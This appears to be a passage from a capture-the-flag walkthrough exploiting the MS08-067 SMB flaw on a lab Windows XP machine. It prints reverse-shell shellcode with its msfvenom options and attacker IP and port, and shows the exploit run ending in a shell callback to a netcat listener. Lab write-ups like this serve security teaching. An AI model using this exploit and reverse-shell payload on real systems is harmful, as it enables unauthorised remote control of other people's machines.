 ```bash
 shellcode += b"\xc6\x85\xcc\xa3\x83\xf8\xcd\xa9\x1d\x41\xc8"
 shellcode += b"\xa7\xb8\x2a\x85\x13\x6f\xfc\xff\xcb\xd0\xa1"
 shellcode += b"\x97\x90\x95\xd2\xa5\xa7\xb6\xc9\xdb\x8f\xc4"
 shellcode += b"\xa6\x68\x2d\x5a\x31\x96\xf8\xe2\x88\x53\xac"
 shellcode += b"\xb2\xc9\xbe\x78\x89\xa1\x68\x2d\xb2\xf1\xc7"
 shellcode += b"\xa8\xa2\xf1\xd7\xa8\x8a\x4b\x98\x27\x02\x5e"
 shellcode += b"\x42\x6f\x88\xa4\xff\xf2\xe8\xaf\xbb\x90\xe0"
 shellcode += b"\xa1\x96\x43\x6b\x47\xfd\xe8\xb4\xf6\xff\x61"
 shellcode += b"\x47\xd5\xf6\x07\x37\x24\x57\x8c\xee\x5e\xd9"
 shellcode += b"\xf0\x97\x4d\xff\x08\x57\x03\xc1\x07\x37\xc9"
 shellcode += b"\xf4\x95\x86\xa1\x1e\x1b\xb5\xf6\xc0\xc9\x14"
 shellcode += b"\xcb\x85\xa1\xb4\x43\x6a\x9e\x25\xe5\xb3\xc4"
 shellcode += b"\xe3\xa0\x1a\xbc\xc6\xb1\x51\xf8\xa6\xf5\xc7"
 shellcode += b"\xae\xb4\xf7\xd1\xae\xac\xf7\xc1\xab\xb4\xc9"
 shellcode += b"\xee\x34\xdd\x27\x68\x2d\x6b\x41\xd9\xae\xa4"
 shellcode += b"\x5e\xa7\x90\xea\x26\x8a\x98\x1d\x74\x2c\x18"
 shellcode += b"\xff\x8b\x9d\x90\x44\x34\x2a\x65\x1d\x74\xab"
 shellcode += b"\xfe\x9e\xab\x17\x03\x02\xd4\x92\x43\xa5\xb2"
 shellcode += b"\xe5\x97\x88\xa1\xc4\x07\x37"
```
Shellcode contains:

-p windows/shell_reverse_shell – It will connect me with a shell.
LHOST=10.10.14.44 LPORT=443 EXITFUNC=thread – Defining the variable for the payload, my IP, the port 
and how to exit.

  -b “\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40” – Bad characters not to use.
  -f py – Output in python format.
  -v shellcode – Code set the variable shellcode, instead of default, buf.
  -a x86 and –platform windows – Describing attacker’s enviornment
  
In the exploit, you have to upload your system generated shellcode at the place of default. Also setup
netcat for listening the system shell.

```bash
 root@kali# python ms08-067.py 10.129.1.111 6 445    
#######################################################################                                                                                                 
# MS08-067 Exploit
# This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
# The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
# Mod in 2018 by Andy Acer
# - Added support for selecting a target port at the command line.
# - Changed library calls to allow for establishing a NetBIOS session for SMB transport
# - Changed shellcode handling to allow for variable length shellcode.
########################################################################
 $   This version requires the Python Impacket library version to 0_9_17 or newer.
 $
 $   Here's how to upgrade if necessary:
 $
 $   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
 $   cd impacket
 $   pip install .
 #
 Windows XP SP3 English (NX)
 [-]Initiating connection
 [-]connected to ncacn_np:10.129.1.111[\pipe\browser]
 Exploit finish
```
I get a callback on my listener.
